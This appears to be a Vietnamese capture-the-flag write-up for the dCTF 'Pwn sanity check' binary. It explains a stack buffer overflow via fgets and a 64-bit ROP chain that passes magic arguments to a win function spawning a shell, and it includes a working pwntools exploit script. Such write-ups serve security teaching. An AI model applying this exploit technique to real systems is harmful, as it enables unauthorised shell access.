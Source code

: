 ![pinch_me](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/pinch_me.png?raw=true)

Dùng ida và thấy 4 hàm ![funcs](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/funcs.png?raw=true)

Hàm **main** set alarm 10s thì đóng program và gọi hàm **vuln()** ![main](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/main.png?raw=true)

Useless **shell()** func:

![bof](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/bof.png?raw=true)

hàm **vuln** có `fgets` nên ta có thể bof đến hàm **win** đc

bạn có thể dễ dàng tìm đc padding = 'A' * 72

Pseudocode: 

```c
int __fastcall win(int arg0, int arg1)
{
  int result;
  result = puts("you made it to win land, no free handouts this time, try harder");
  if ( arg0 == 0xDEADBEEF )
  {
    result = puts("one down, one to go!");
    if ( arg1 == 0x1337C0DE )
    {
      puts("2/2 bro good job");
      system("/bin/sh");		// your target
      exit(0);
    }
  }
  return result;
}
```

Vậy payload = 'A' * 72 + win_addr + ret_addr +'\xef\xbe\xad\xde' + '\xde\xc0\x37\x13'. Nếu là file 32b thì payload là thế, nhưng đây là file 64b- 2 arg ko đc lấy từ stack mà từ 2 registers **rdi** và **rsi** 

![64](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/64.png?raw=true)

Mình sẽ dùng ROPgadget để tìm code asm có pop rdi; pop rsi để đẩy 2 arg từ stack vào rdi và rsi

![rop](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/rop.png?raw=true)

--> **payload = 'A'*72 + pop_rdi_ret + '\xef\xbe\xad\xde' + pop_rsi_r15_ret  + '\xde\xc0\x37\x13'+'\x00'  + win_addr**. Mình thêm '\x00' do sau khi pop rsi thì ta còn pop r15 nữa nếu ko sẽ đẩy win_addr khỏi stack vào r15 là khỏi chơi

Ban có thể dùng pwndbg để xem code và stack [nói dông dài ko = vứt cái ảnh trực quan]

![gdb](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/gdb.png?raw=true)

```python
# xpl.py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = './pwn_sanity_check'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

win_addr = elf.symbols.win
pop_rdi_ret = 0x0000000000400813
pop_rsi_r15_ret = 0x0000000000400811

io = start()
payload = flat({
    72: [
        pop_rdi_ret,
        0xdeadbeef,
        pop_rsi_r15_ret,
        0x1337c0de,
        0x0,
        win_addr
        ]
})

write('payload1', payload)
io.sendlineafter("tell me a joke\n", payload)
io.interactive()
```

![flag](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Pwn%20sanity%20check/imgs/flag.png?raw=true)

